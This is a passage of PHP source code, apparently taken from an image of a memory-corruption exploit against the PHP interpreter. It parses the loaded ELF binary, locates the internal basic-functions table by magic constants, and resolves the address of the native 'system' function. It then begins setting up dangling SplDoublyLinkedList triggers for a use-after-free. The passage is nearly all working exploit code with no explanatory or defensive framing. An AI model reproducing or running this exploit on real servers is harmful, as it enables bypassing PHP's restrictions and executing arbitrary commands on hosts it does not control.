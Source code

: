 ```php

    if(!$data_addr || !$text_size || !$data_size)
        die('Exploit failed: Unable to parse ELF');

    return [$data_addr, $text_size, $data_size];
}

function get_basic_funcs($base, $elf) {
    list($data_addr, $text_size, $data_size) = $elf;
    for($i = 0; $i < $data_size / 8; $i++) {
        $leak = read($data_addr + $i * 8);
        if($leak - $base > 0 && $leak < $data_addr) {
            $deref = read($leak);
            # 'constant' constant check
            if($deref != 0x746e6174736e6f63)
                continue;
        } else continue;

        $leak = read($data_addr + ($i + 4) * 8);
        if($leak - $base > 0 && $leak < $data_addr) {
            $deref = read($leak);
            # 'bin2hex' constant check
            if($deref != 0x786568326e6962)
                continue;
        } else continue;

        return $data_addr + $i * 8;
    }
}

function get_system($basic_funcs)
{
    $addr = $basic_funcs;
    do {
        $f_entry = read($addr);
        $f_name = read($f_entry, 6);

        if($f_name == 0x6d6574737973) { # system
            return read($addr + 8);
        }
        $addr += 0x20;
    } while($f_entry != 0);
    return false;
}

function get_system_address($binary_leak)
{
    $base = get_binary_base($binary_leak);
    print('ELF base: 0x' .dechex($base) . "\n");
    $elf = parse_elf($base);
    $basic_funcs = get_basic_funcs($base, $elf);
    print('Basic functions: 0x' .dechex($basic_funcs) . "\n");
    $zif_system = get_system($basic_funcs);
    return $zif_system;
}

$dlls = [];
$strs = [];
$rw_dll = new SplDoublyLinkedList();


# Create a chain of dangling triggers, which will all in turn
# free current->next, push an element to the next list, and free current
```